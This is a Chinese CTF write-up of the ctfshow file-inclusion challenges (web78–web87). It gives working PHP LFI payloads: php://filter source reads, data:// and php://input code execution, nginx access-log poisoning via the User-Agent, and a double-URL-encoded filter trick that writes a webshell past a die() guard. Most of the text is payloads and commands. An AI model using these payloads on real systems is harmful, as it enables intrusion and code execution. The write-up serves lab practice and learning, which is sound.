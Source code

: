 ## ctfshow- 文件包含

### web78

无限制：

```python
#1
?file=php://filter/read=convert.base64-encode/resource=flag.php
#2
?file=data://text/plain,<?php system('ls');?> 
?file=data://text/plain,<?php system('tac flag.php');?>
#3
php://input#用不了好像
```


```
PD9waHANCg0KLyoNCiMgLSotIGNvZGluZzogdXRmLTggLSotDQojIEBBdXRob3I6IGgxeGENCiMgQERhdGU6ICAgMjAyMC0wOS0xNiAxMDo1NToxMQ0KIyBATGFzdCBNb2RpZmllZCBieTogICBoMXhhDQojIEBMYXN0IE1vZGlmaWVkIHRpbWU6IDIwMjAtMDktMTYgMTA6NTU6MjANCiMgQGVtYWlsOiBoMXhhQGN0ZmVyLmNvbQ0KIyBAbGluazogaHR0cHM6Ly9jdGZlci5jb20NCg0KKi8NCg0KDQokZmxhZz0iY3Rmc2hvd3tkYmQzOTRjNC1kZDkxLTQ5MmQtOTJlMi00MTU0ZTZiZmJmZGJ9Ijs=
$flag="ctfshow{dbd394c4-dd91-492d-92e2-4154e6bfbfdb}";
```


### web79

```php
$file = str_replace("php", "???", $file);
```

将php替换了，但是这个默认不忽略大小写，

1. 这里使用data://

```python
?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCd0YWMgZionKTs/Pg==
# <?php system('tac f*');?>
```

2. 使用input，`hackbar`不行，这里使用bp

```
?file=Php://input
```



### web80

```php
$file = str_replace("php", "???", $file);
$file = str_replace("data", "???", $file);
```

这会ban了两个，这可以可以使用上一题的`Php://`

```
?file=Php://input

<?php system("ls");?>
<?php system("tac fl0g.php"); ?>
```

看了一下资料还可以利用日志,先访问这个日志地址，然后使用bp抓包

```
?file=/var/log/nginx/access.log
```
修改UA内容为：
```php
<?php system("ls");?>
<?php system('cat fl0g.php');?>
```
重发送发现回显

![image-20240905131450579](https://gitee.com/bx33661/image/raw/master/path/image-20240905131450579.png)

### web81
这会过滤升级到了三个
```php
$file = str_replace("php", "???", $file);    
$file = str_replace("data", "???", $file);    
$file = str_replace(":", "???", $file);
```
还是采用日志漏洞
> 需要注意的是⚠️
> 在 UA 里改成要执行的 php 命令 一定要一次成功 如果有问题就会 一直报错 只能重开环境，我试了好几次

```python
?file=/var/log/nginx/access.log

#执行命令查询
<?php system('ls');?>   #需要发两次
#执行命令获取flag
<?php system('cat fl0g.php');?>
```
![[Pasted image 20240905145927.png]]
此外我还发现一个问题，若是把命令改为双引号就会报错，就得重开环境不知道怎么回事！！！

### web82
丸辣，时间不对

### web87
丸辣,这会很有难度😭
```php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $content = $_POST['content'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);    
}    
```
过滤了四个参数，并且使用了`file_put_contents`,并且我们写的话后面的`die()`也不会让我执行

**file内容**-----两次url编码结果如下：
```python
%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%36%33%25%36%66%25%36%65%25%37%36%25%36%35%25%37%32%25%37%34%25%32%65%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%34%25%36%35%25%36%33%25%36%66%25%36%34%25%36%35%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%33%31%25%33%32%25%33%33%25%32%65%25%37%30%25%36%38%25%37%30
```

**Pos参数content**：
```python
PD9waHAgc3lzdGVtKCdscycpOw==
#再加上两个aa
aaPD9waHAgc3lzdGVtKCdscycpOw==
```
成功后不会出现任何东西
访问`123.php`

![image-20240905153631565](https://gitee.com/bx33661/image/raw/master/path/image-20240905153631565.png)

我么现在得到flag文件的名称了
重复上面的操作只是将执行命令换了
```Python
content=aaPD9waHAgc3lzdGVtKCdjYXQgZioucGhwJyk7
```

![image-20240905154239736](https://gitee.com/bx33661/image/raw/master/path/image-20240905154239736.png)

> 扩展方法：还可以穿参数的时候穿入getshell，使用蚁剑连接，寻找flag

### web83
```php
 if(preg_match("/php|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i", $file)){  
        die("error");  
    }
```
这次过滤的真的不少哦，使用data协议
> tips:如果构造命令时，base64 编码出现 “ = ”，可以尝试在后面加空格，避免等号出现。

1. 构造”ls“命令
```python
<?php system('ls');?> 
#PD9waHAgc3lzdGVtKCdscycpOz8+IA==
#不行就添加空格
<?php system('ls ');?> 
#PD9waHAgc3lzdGVtKCdscyAnKTs/PiA=
#不行就添加空格
<?php system('ls  ');?> 
# PD9waHAgc3lzdGVtKCdscyAgJyk7Pz4g
```
构造：
```python
?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdscyAgJyk7Pz4g
```
![sdsd](https://gitee.com/bx33661/image/raw/master/path/Snipaste_2024-09-05_16-31-42.png)
2. 有了文件名称，我们开始构造获取命令,思路一样
```python
... 省略几个步骤
<?php system('tac fl0g.php ');?>    
#PD9waHAgc3lzdGVtKCd0YWMgZmwwZy5waHAgJyk7Pz4gICAg
```
构造命令
```python
?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCd0YWMgZmwwZy5waHAgJyk7Pz4gICAg
```
![sdsd](https://gitee.com/bx33661/image/raw/master/path/Snipaste_2024-09-05_16-36-57.png)
### web116
